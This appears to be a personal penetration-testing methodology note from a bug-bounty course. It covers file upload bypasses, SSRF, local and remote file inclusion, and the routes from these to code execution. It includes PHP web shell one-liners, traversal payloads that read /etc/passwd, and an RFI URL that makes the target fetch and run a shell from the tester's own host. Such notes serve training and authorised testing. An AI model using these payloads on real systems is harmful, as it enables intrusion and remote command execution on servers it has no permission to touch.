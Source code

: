 # File Upload Attacks
## Client-Side Validation
If file is validated on client side:
1. Upload a validated file type
2. Capture upload request in Burp
3. Modify `filename` and the file content to your web shell
## Back-End Validation
If file is validated after submission:
1. Capture file upload request and change data to your desired web shell
2. Send captured request to Repeater and test the `filename` extension, `Content-Type` value, and `MIME-Type` individually to see which area the back-end is validating from. 
	- Test each one individually, and all possible combinations of each (ex: allowed `filename` with disallowed `Content-Type` and `MIME-Type` to find exactly what is being tested on the back-end)
3. If one area is validated, but others aren't validated on back-end (`Content-Type`, `filename`, `MIME-Type`), then set all these other values to your desired value and continue testing
	- If `filename` is validated: [[Bypassing Filters#Fuzzing Extensions]]
	- If `Content-Type` is validated: [[Bypassing Filters#Type Filters]]
	- If `MIME-Type` is validated: [[Bypassing Filters#MIME-Type]]

>**MAKE SURE YOU UN-CHECK URL ENCODING WHEN USING INTRUDER!!!!!!!!**
### If `HTML` file uploads are allowed: [[Miscellaneous Upload Attacks#XSS]]
### If `.svg` uploads are allowed: [[Miscellaneous Upload Attacks#XXE]]
### If none of above is working:
Try combining multiple methods. Example:
1. If file needs to end in `.jpg`, name it `.php.jpg`
2. Check if you can change the `Content-Type` now. If not, fuzz the `Content-Type`: [[Bypassing Filters#Fuzzing Content-Type]]
# SSRF Testing (from URL schemes)
If the web application relies on a user-supplied URL scheme or protocol (ex: `http://`, `file://`), such as:
- URL that retrieves data based off user-input
- A button to retrieve data such as; Stock for items, availability for appointments, etc.
## Test for SSRF
1. Send a URL to a listener on our attacking system to confirm vulnerability:
```url
http://10.10.14.17:80/test
```
	- Make sure to have a python listener open on this port when sending this!
## Exploitation
1. Check to see if it scans itself with `http://127.0.0.1:81`
	- If it responds with error saying it couldn't connect, we can scan for all ports with `ffuf`[[Cybersecurity/CBBH Modules/4. File & SSRF Testing/2. SSRF - Server Side Request Forgery/Reference#Enumerating the System]]
2. If we find other services open (ex: `port 25 - SMTP`), we can go through [[Cybersecurity/CBBH Modules/4. File & SSRF Testing/2. SSRF - Server Side Request Forgery/Reference#The gopher Protocol]]
3. Attempt LFI by using `file:////////etc/passwd` to read files
4. If we found that the server fetches information from unauthorized resources on other pages, we can send requests to grab these unauthorized resources
	- Ex: Loading the `/index.php` page sends a GET request to `/assets/js/userdata.js`, which is unauthorized when we attempt to view it
	- We can send a request with our SSRF vulnerability to view the page
	- If we want to FUZZ a URL we dont have access to: [[Cybersecurity/CBBH Modules/4. File & SSRF Testing/2. SSRF - Server Side Request Forgery/Reference#Accessing Restricted Endpoints]]
## Blind Exploitation: [[Cybersecurity/CBBH Modules/4. File & SSRF Testing/2. SSRF - Server Side Request Forgery/Reference#Blind SSRF|Reference]]
# Local File Inclusions
## Identifying Vulnerability
If a file or resource is retrieved through a URL with a `?file=filename` parameter:
1. Try accessing files by appending `?file=filename/../../../../etc/passwd`
2. If this doesn't work, try: `?file=/../../../../etc/passwd`
3. If this doesn't work, try: `?file=filename/....//....//....//....//etc/passwd`
4. If this doesn't work, try: `?file=filename/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd`
5. If these don't work, try: `?file=./filename/` + all previous payloads, one-by-one
### If our original request retrieves a file
Ex: `?profile-avatar=/profile/$username/avatar.png`
1. Change the name of the file it is requesting to a malicious LFI username to grab other files 
	- Ex: Change profile avatar from `avatar.png` -> `../../../../etc/passwd`
	- When web app requests profile avatar, it will now be: `?profile-avatar=/profile/$username/../../../../etc/passwd`
### If PHP version is < 5.3: [[Basic Bypasses#Appended Extension]]
### Else: [[PHP Filters]]
## RCE through LFI
### Check for RCE through PHP Configurations: [[1. PHP Wrappers#Data]]
Go through [[1. PHP Wrappers#Checking PHP Configurations]] first.
- If enabled, continue with the rest of the entire `Data` Section
- If disabled, skip this section and `Input` section and go to `Expect` section
### If `Data` section doesn't work: [[1. PHP Wrappers#Input]]
### If neither `Data` or `Input` work: [[1. PHP Wrappers#Expect]]

## RFI (Remote File Inclusion)
### Determine if vulnerable
1. Include a URL and see if we can get its content. If we can, it is vulnerable
	- Ex: `http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php`
### Exploit
1. Create a web reverse shell:
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
2. Host the script with python server:
```shell
sudo python3 -m http.server <LISTENING_PORT>
```
3. Include our local shell through RFI, and specify a command to be executed alongside it:
```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```
#### If HTTP ports are blocked or `http://` is blocked: [[2. Remote File Inclusion (RFI)#FTP]]
#### If vulnerable app is on a Windows server: [[2. Remote File Inclusion (RFI)#SMB]]
## Upload Malicious Files through LFI
1. Identify an endpoint where you can upload files to the server
2. If you can find an upload file section on the server, continue with exploitation
### Exploitation
1. Create a web shell file with the allowed `MIME-Type` and extension and upload it to the web app:
```shell
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
2. Find the file path where this is uploaded (ex: right-click it -> Inspect -> find where it is retrieved in the HTML)
3. Include the uploaded file in the LFI vulnerability and the code should get executed:
```html
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```
4. If execution doesn't work, go through:
	- [[3. LFI and File Uploads#Zip Upload]] 
	- [[3. LFI and File Uploads#Phar Upload]] 
## If everything fails, go through: [[4. Log Poisoning]]